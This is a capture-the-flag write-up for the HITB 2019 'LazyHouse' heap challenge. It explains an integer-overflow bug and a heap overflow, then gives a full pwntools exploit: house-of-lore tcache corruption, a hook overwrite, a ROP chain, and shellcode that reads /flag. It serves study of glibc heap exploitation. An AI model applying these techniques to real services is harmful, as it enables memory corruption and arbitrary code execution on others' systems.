# LazyHouse

> HITB Qual 2019

## Vulnerability
### Type Confusion
The value of ```(int64_t size)``` is cast to ```uint64```, and the high bits (higher than 64) of the result of ```imul``` can be ignored.

For Example, if we enter a value ```0x13f69b02593f69b1``` as size of a house.

We can make the result of ```imul``` to be very small, which is the money we need to pay for the house.

After that, if we sell the house, we will get as much money as ```size << 6```.

In one word, we enter a **size** for house and then sell the house, we will get as much money as ```-((uint64_t)(size * 0xda) & 0xffffffffffffffff) + (uint64_t)(size << 6)```.
<font color=red>We fraudulently obtain money without paying anything~</font>
### Heap Overflow
> Only twice

We can make a 32 bytes heap overflow when we upgrade a house.


## Diffifulty
### Calloc
We can only buy a **normal house** and get a chunk allocated buy function ```calloc```. If we want to use malloc, we need to buy a **super house**.
The differences between ```malloc``` and ```calloc``` are shown as follows.
- ```calloc``` will not use tcache bins for allocation.
For ```__libc_malloc```

For ```__libc_calloc```

And, ```_int_malloc``` will directly search fastbins for allocating rather than searching tcache bins firstly.

- ```calloc``` will zero the memory got from ```__int_malloc```.
### Glibc 2.29
1. Glibc2.28 disallowed **unsotedbin attack** for arbitrary address writing. So, it is not easy to overwrite ```global_max_fast``` to fuck chunks and bins of any size into the range of fastbins.
2. Glibc2.29 disallowed **house of force**.

## Exploit
### Get Enough Money
I play the trick mentioned before to get the money close to 0xffffffffffffffff for further exploiting.
```
def fuck_money(size):
    buy_house(7, size, "\x00")
    sell(7)
    log.critical(hex(check_money()))

fuck_money(0x13f69b02593f69b1)
fuck_money(0x109bb0727572e2bd)
fuck_money(0x13f2b1389a662c33)
fuck_money(0x4fcace18cee3091)
```

### Leak
If we want to make the address of libc appear in heap, we should make the tcache bins of our size full. It is great that **calloc** does not obtain bin from tcache bins. So, we can do buy and sell operation for more then 7 times to fill tcache bins of our size up.
```
make tcache size 0x217 full
or i in range(0, 7):
   buy_house(7, 0x217, "\x00")
   sell(7)
```

```
buy_house(2, 0x80, "x" * 0x10)
sell(2)
buy_house(0, 0x400, "\xaa" * 0x400)
buy_house(1, 0xa0, "\xbb" * 0xa0)
buy_house(2, 0x90, "\xcc" * 0x90)
buy_house(3, 0x90, "\xdd" * 0x90)
```
The distribution of the chunks is shown as follows.

Then, I use **house 0** to make the overflow to overwrite the size of the chunk at **0x15d0** to **0x8d1**.
```
#overlapping first
upgrade(0, "\xaa" * 0x400 + p64(0) + p64(0x8d1))

for i in range(0, 7):
    buy_house(7, 0x90, "\x11" * 0x90)
    sell(7)
```

Then, I fill the tcache of size (0x90 + 0x10) up, and I make 4 chunk of this size, which will be free into unsorted bins.
```
for i in range(0, 7):
    buy_house(7, 0x90, "\x11" * 0x90)
    sell(7)

#unsorted bin
buy_house(4, 0x90, "\x44" * 0x90)
buy_house(5, 0x90, "\x55" * 0x90)
buy_house(6, 0x90, "\x66" * 0x90)
buy_house(7, 0x90, "\x77" * 0x90)


```
Than, I free the chunk(the size of which is overwrite with 0x8d1) at 0x15d0. So a big unsorted bin is list.
```
sell(1)
```

Then, I calloc the chunk of (0x8d0 - 0x10) to get the chunk again. Which is the most import is that, we then free the chunk of **house 4** and **house 6** to make them into unsorted bins.
```
buy_house(1, 0x8c0, "\xbb" * 0xa0 +
          p64(0) + p64(0xa1) + "\xcc" * 0x90 +
          p64(0) + p64(0xa1) + "\xdd" * 0x90 +
          (p64(0) + p64(0xa1) + "\x11" * 0x90) * 7 +
          p64(0) + p64(0xa1) + "\x44" * 0x90 +
          p64(0) + p64(0xa1) + "\x55" * 0x90 +
          p64(0) + p64(0xa1) + "\x66" * 0x90 + 
          p64(0) + p64(0xa1) + "\x77" * 0x90 )
#pause()
sell(4)
sell(6)
```

And show **house 1** to get **heap address** and **libc address**.
```
#leak
show_house(1, reading = False)
for i in range(0, 10):
    ru(p64(0xa1))
leaked_libc = u64(p.read(8))
leaked_heap = u64(p.read(8))

libc_base = leaked_libc - 0x1e4ca0
heap_base = leaked_heap - 0x1d60
log.critical("libc_base --> {}".format(hex(libc_base)))
log.critical("heap_base --> {}".format(hex(heap_base)))
```

### House of Lore
I use house of lore to fuck the tcache struct in heap range to reach the goal of arbitrary writing.
Firstly, I sell the bit chunk and buy the chunk to change the value overlapped by this chunk. This is really usefull in the consistance that we can only upgrade houses for twice.
By modifying chunks, we can make the change the size of the chunk of **house 2** to 0x21 and the size of the chunk of **house 7** to 0x31.
```
sell(1)

buy_house(1, 0x8c0, "\xbb" * 0xa0 +
          p64(0) + p64(0x21) + "\xcc" * 0x10 +
          p64(0) + p64(0xa1 - 0x20) + "\x00" * (0x90 - 0x20) +
          p64(0) + p64(0xa1) + "\xdd" * 0x90 +
          (p64(0) + p64(0xa1) + "\x11" * 0x90) * 7 +
          p64(0) + p64(0xa1) + p64(libc_base + 0x1e4d40 - 0x10) + p64(heap_base + 0x1d60) + "\x44" * 0x80 +
          p64(0) + p64(0x21) + "\x55" * 0x10 +
          p64(0) + p64(0xa1 - 0x20) + "\x00" * (0x90 - 0x20) +
          p64(0) + p64(0xa1) + p64(heap_base + 0x1c20) + p64(libc_base + 0x1e4d40 - 0x10) + "\x66" * 0x80 +
          p64(0) + p64(0x31) + p64(heap_base + 0x40) * 4 +
          p64(0) + p64(0xa1 - 0x30) + "\x00" * (0x90 - 0x30) )

#prepare for house of lore
sell(2)
sell(7)
sell(1)
```
After we free the chunk of **house 2** and the chunk of **house 7**, we get 2 bin pointer at heap_base + 0x50, which is quite useful for house of lore attack.

We sell the chunk of **house 1**, that big chunk, for further making a small bin at the address of that 0x21 tcache chunk. (The pointer in tcache struct is **&chunk + 0x10**)
We buy a chunk, the size of which is (0xb0 + 0x10), to make the top chunk start at the address of that 0x21 tcache bin. GREAT~
```
buy_house(1, 0xb0, "\x11" * 0xb0)
```

Obtain the small bin in smallbins to clean the smallbins.
```
buy_house(2, 0x90, "\x22" * 0x90)
```
Obtain a size of 0x220 at the address of that 0x21 tcache bin.
```
buy_house(6, 0x217, "\x66" * 0x90)
```

So, it is good for the check for smallbins list. <font color=red>**p->BK->prev == p**</font>.
We then get a smallbin chunk to avoid being merging with top_chunk.
```
buy_house(4, 0x217, "\x44" * 0x90)
```
A great trick. We calloc a (0x3a0 + 0x10) size chunk and free it into tcache to make the bitmap to be 0x100. It is really usefull for this challenge, since we can only use ```calloc```, we need to zero memory with the size of the fake chunk (0 is really not good).
```
buy_house(6, 0x3a0, p64(heap_base + 0x40) * (0x3a0 / 8))
sell(6)
```

Then we make the second overflow to do house of lore attack, modify <font color=red>p->bk to fake_chunk</font>.
```
upgrade(1, "\x22" * 0xb0 + p64(0) + p64(0xa1) + p64(libc_base + 0x1e4d30) + p64(heap_base + 0x40))
```
Which is still important is that we need to make <font color=red>p->bk->bk->prev == p->bk</font>.
Do you remember that we have a tcache bin of 0x30? Good.
We just need to set the **fd** of that chunk to be ```heap_base + 0x40```. The great trick of setting bitmap to 0x100 has aslo meet that requirement.
```
buy_house(6, 0x3a0, p64(heap_base + 0x40) * (0x3a0 / 8))
```
At last, we just need to calloc the modified bin out and then we will get the chunk at **heap_base + 0x40**, which is the struct of tcache. We can change the header of the tcache bin list whose size is 0x220 to ```__calloc_hook``` and buy a big house (use malloc).

We can make ROP_CHAIN when we buy the house.

It is interesting that when we call ```__calloc_hook```, the register ```rbp``` is the same value as size.

So, we change ```__calloc_hook``` to a Gadget ```leave; ret``` to do ROP at the ROP_CHAIN by calloc(&heap_chunk + ?).

### EXP
```
from pwn import *

local=1
pc='./lazyhouse'
aslr=True
context.log_level="debug"
context.word_size = 64
context.os = "linux"
context.endian = "little"

libc=ELF('./libc.so.6')

if local==1:
    #p = process(pc,aslr=aslr,env={'LD_PRELOAD': './ld-linux-x86-64.so.2', "LD_LIBRARY_PATH":"./"})
    p = process(pc,aslr=aslr)
    #gdb.attach(p, "b malloc_printerr")
else:
    remote_addr=['6.6.6.6', 6666]
    p=remote(remote_addr[0],remote_addr[1])

ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def lg(s,addr):
    print('\033[1;31;40m%20s-->0x%x\033[0m'%(s,addr))

def raddr(a=6):
    if(a==6):
        return u64(rv(a).ljust(8,'\x00'))
    else:
        return u64(rl().strip('\n').ljust(8,'\x00'))

def buy_house(index, size, buf, logging = False):
    ru("Your choice: ")
    log.info("target price --> {price}".format(price = hex(size * 0xDA & 0xffffffffffffffff)))
    sl("1")
    ru("Your money:")
    money_now = int(rl().strip())
    log.info("money_now --> {money_now}".format(money_now = hex(money_now)))
    ru("Index:")
    sl(str(index))
    ru("Size:")
    sl(str(size))
    ru("Price:")
    log.info("price --> {price}".format(price = hex(int(rl().strip()))))
    if logging == True:
        return
    if(p.read(6) != "House:"):
        rl()
        log.critical("fucked a really big house")
        return
    sn(buf)

def show_house(index, reading = True):
    ru("Your choice: ")
    sl("2")
    ru("Index:")
    sl(str(index))
    if reading == True:
        return ru("$$$$$$$$$$$$$$$$$$$$$$$$$$$$")[:-len("$$$$$$$$$$$$$$$$$$$$$$$$$$$$")]

def upgrade(index, buf):
    ru("Your choice: ")
    sl("4")
    ru("Index:")
    sl(str(index))
    ru("House:")
    sn(buf)

def sell(index):
    ru("Your choice: ")
    sl("3")
    ru("Index:")
    sl(str(index))

def check_money():
    ru("Your choice: ")
    sl("1")
    ru("Your money:")
    money_now = int(rl().strip())
    #log.critical("money_now --> {money}".format(money = hex(money_now)))
    ru("Index:")
    sl("7")
    ru("Size:")
    sl(str(0x10))
    #log.critical("max calloc --> {money}".format(money = hex(money_now / 0xda)))
    return money_now

def buy_super(buf):
    ru("Your choice: ")
    sl("5")
    ru("House:")
    sn(buf)

def show_super():
    ru("Your choice: ")
    sl("6")
    ru("Here is supper house:\n")
    return p.read(0x217)

def fuck_money(size):
    buy_house(7, size, "\x00")
    sell(7)
    log.critical(hex(check_money()))


if __name__ == '__main__':
    fuck_money(0x13f69b02593f69b1)
    fuck_money(0x109bb0727572e2bd)
    fuck_money(0x13f2b1389a662c33)
    fuck_money(0x4fcace18cee3091)

    #make tcache size 0x217 full
    for i in range(0, 7):
        buy_house(7, 0x217, "\x00")
        sell(7)

    #chunk after tcache and before tmp tcache bins
    buy_house(2, 0x80, "x" * 0x10)
    sell(2)
    buy_house(0, 0x400, "\xaa" * 0x400)
    buy_house(1, 0xa0, "\xbb" * 0xa0)
    buy_house(2, 0x90, "\xcc" * 0x90)
    buy_house(3, 0x90, "\xdd" * 0x90)

    #overlapping first
    upgrade(0, "\xaa" * 0x400 + p64(0) + p64(0x8d1))

    for i in range(0, 7):
        buy_house(7, 0x90, "\x11" * 0x90)
        sell(7)

    #unsorted bin
    buy_house(4, 0x90, "\x44" * 0x90)
    buy_house(5, 0x90, "\x55" * 0x90)
    buy_house(6, 0x90, "\x66" * 0x90)
    buy_house(7, 0x90, "\x77" * 0x90)


    #a big chunk
    sell(1)
    #pause()
    buy_house(1, 0x8c0, "\xbb" * 0xa0 +
              p64(0) + p64(0xa1) + "\xcc" * 0x90 +
              p64(0) + p64(0xa1) + "\xdd" * 0x90 +
              (p64(0) + p64(0xa1) + "\x11" * 0x90) * 7 +
              p64(0) + p64(0xa1) + "\x44" * 0x90 +
              p64(0) + p64(0xa1) + "\x55" * 0x90 +
              p64(0) + p64(0xa1) + "\x66" * 0x90 +
              p64(0) + p64(0xa1) + "\x77" * 0x90 )
    #pause()
    sell(4)
    sell(6)

    #leak
    show_house(1, reading = False)
    for i in range(0, 10):
        ru(p64(0xa1))
    leaked_libc = u64(p.read(8))
    leaked_heap = u64(p.read(8))

    libc_base = leaked_libc - 0x1e4ca0
    heap_base = leaked_heap - 0x1d60
    log.critical("libc_base --> {}".format(hex(libc_base)))
    log.critical("heap_base --> {}".format(hex(heap_base)))


    sell(1)
    #pause()
    buy_house(1, 0x8c0, "\xbb" * 0xa0 +
              p64(0) + p64(0x21) + "\xcc" * 0x10 +
              p64(0) + p64(0xa1 - 0x20) + "\x00" * (0x90 - 0x20) +
              p64(0) + p64(0xa1) + "\xdd" * 0x90 +
              (p64(0) + p64(0xa1) + "\x11" * 0x90) * 7 +
              p64(0) + p64(0xa1) + p64(libc_base + 0x1e4d40 - 0x10) + p64(heap_base + 0x1d60) + "\x44" * 0x80 +
              p64(0) + p64(0x21) + "\x55" * 0x10 +
              p64(0) + p64(0xa1 - 0x20) + "\x00" * (0x90 - 0x20) +
              p64(0) + p64(0xa1) + p64(heap_base + 0x1c20) + p64(libc_base + 0x1e4d40 - 0x10) + "\x66" * 0x80 +
              p64(0) + p64(0x31) + p64(heap_base + 0x40) * 4 +
              p64(0) + p64(0xa1 - 0x30) + "\x00" * (0x90 - 0x30) )

    #prepare for house of lore
    sell(2)
    sell(7)
    sell(1)

    buy_house(1, 0xb0, "\x11" * 0xb0)
    buy_house(2, 0x90, "\x22" * 0x90)
    buy_house(6, 0x217, "\x66" * 0x90)
    buy_house(4, 0x217, "\x44" * 0x90)
    sell(6)
    #set bitmap to 0x100
    buy_house(6, 0x3a0, p64(heap_base + 0x40) * (0x3a0 / 8))
    sell(6)
    pause()
    #house of lore
    upgrade(1, "\x22" * 0xb0 + p64(0) + p64(0xa1) + p64(libc_base + 0x1e4d30) + p64(heap_base + 0x40))

    libc.address = libc_base
    malloc_hook = libc.symbols["__malloc_hook"]
    mprotect = libc.symbols["mprotect"]
    leave_ret = libc_base + 0x0000000000058373
    pop_rdi_ret = libc_base + 0x0000000000026542
    pop_rsi_ret = libc_base + 0x0000000000026f9e
    pop_rdx_ret = libc_base + 0x000000000012bda6
    call_rdx = libc_base + 0x0000000000143650
    ROP_CHAIN = p64(pop_rdi_ret) + p64(heap_base) + \
                p64(pop_rsi_ret) + p64(0x4000) + \
                p64(pop_rdx_ret) + p64(7) + p64(mprotect) + \
                p64(pop_rdx_ret) + p64(heap_base + 0x1780) + p64(call_rdx)

    ROP_CHAIN = ROP_CHAIN.ljust(0x1700 - 0x16a0, "\x90")

    ROP_CHAIN += "/flag\0"

    ROP_CHAIN = ROP_CHAIN.ljust(0x1780 - 0x16a0, "\x90")

    buffer_addr = heap_base + 0x1700
    heap_addr = heap_base + 0x2000

    code = asm(pwnlib.shellcraft.amd64.linux.open(buffer_addr, 0, 2).replace("push SYS_open", "push 2"))
    code += asm(pwnlib.shellcraft.amd64.linux.syscall('SYS_read', 'rax', heap_addr, 0x100))
    code += asm(pwnlib.shellcraft.amd64.linux.syscall('SYS_write', 1 , heap_addr, 0x100).replace("push SYS_write", "push 1"))
    code += asm(pwnlib.shellcraft.amd64.linux.syscall('SYS_exit', 0))

    ROP_CHAIN += code

    buy_house(6, 0x217, ROP_CHAIN)
    buy_house(7, 0x217, p64(malloc_hook) * 0x40)
    buy_super(p64(leave_ret) * 2)
    sell(1)
    buy_house(1, heap_base + 0x16a0 - 8, ROP_CHAIN, logging = True)

    p.interactive()

```